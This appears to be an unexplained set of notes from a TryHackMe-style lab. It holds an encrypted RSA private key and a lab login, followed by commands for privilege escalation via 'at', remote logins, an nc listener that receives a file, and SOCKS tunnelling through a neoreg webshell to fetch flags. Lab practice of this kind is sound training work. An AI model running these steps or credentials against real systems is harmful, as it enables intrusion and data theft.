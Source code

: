 -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----

echo "cat /root/root.txt" | at now

xfreerdp /v:10.10.209.195 /u:thm /p:Password1@

用户名： thm

密码： Password1@

域： lunar.eruca.com

evil-winrm -i 10.10.209.195 -u thm

ssh thm@10.10.209.195

nc -lvp 8080 > ~/work/thm

curl --socks5 127.0.0.1:1080 http://flag.thm.com/flag

http://flag.thm.com/flag

curl --socks5 127.0.0.1:1080 http://45.33.23.183:80/flag

python3 neoreg.py -k thm -u http://10.10.191.112/uploader/files/tunnel.hp
curl --socks5 127.0.0.1:1080 http://10.10.191.112/flag

python3 neoreg.py -k thm -u http://flag.thm.com/
